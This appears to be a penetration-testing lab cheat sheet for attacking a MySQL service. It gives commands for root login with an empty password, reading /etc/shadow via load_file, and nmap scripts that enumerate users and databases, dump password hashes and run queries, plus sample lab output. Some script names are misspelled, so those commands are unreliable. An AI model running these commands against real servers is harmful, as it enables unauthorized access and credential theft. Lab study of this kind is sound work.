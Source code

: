 Check MySQL access with root credentials
```
mysql -h target_ip -u root
```

From root account load etc/shadow file
```
select load_file("/etc/shadow");
```

Check which users have empty passwords
```
nmap target_ip -sV -p 3306 --script=mysql-empty-password
```

Get info of user
```
nmap target_ip -sV -p 3306 --script=mysql-info
```


```
nmap target_ip -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

Get list of databases
```
nmap target_ip -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

Get list of variables
```
nmap target_ip -sV -p 3306 --script=mysql-varaibles --script-args="mysqluser='root',mysqlpass=''"
```

```
nmap target_ip -sV -p 3306 --script=mysql-varaibles --script-args="mysql-audit.username='root',mysql-aduit.password=''"
```

```
nmap target_ip -sV -p 3306 --script=mysql-varaibles --script-args="mysql-audit.username='root',mysql-aduit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

```
nmap target_ip -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"
```

```
nmap target_ip -sV -p 3306 --script=mysql-query --script-args="query='select count(*) from databse_name;'username='root',password=''"
```

#### Questions

1.  What is the version of MySQL server? 
   
```
nmap 192.117.106.3 --script mysql-info.nse 

| mysql-info: 
|   Protocol: 10
|   Version: 5.5.62-0ubuntu0.14.04.1
|   Thread ID: 43
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, IgnoreSigpipes, FoundRows, SupportsTransactions, LongColumnFlag, ODBCClient, ConnectWithDatabase, LongPassword, InteractiveClient, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsCompression, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: P}DxRq`n*!e^&?L?75D7
|_  Auth Plugin Name: 96
MAC Address: 02:42:C0:75:6A:03 (Unknown)
```
